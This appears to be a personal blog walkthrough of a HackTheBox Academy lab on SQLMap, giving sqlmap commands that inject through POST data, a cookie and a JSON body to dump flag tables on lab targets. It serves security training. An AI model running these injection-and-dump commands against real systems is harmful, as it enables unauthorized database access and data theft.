


# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

I enjoyed this lab very much. I am running an SQLmap payload on the final skill assessment question which is currently taking too long 🥱 so I thought that I'd have to write this blog.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 

Questions:

`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:

    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.

`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.

`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`

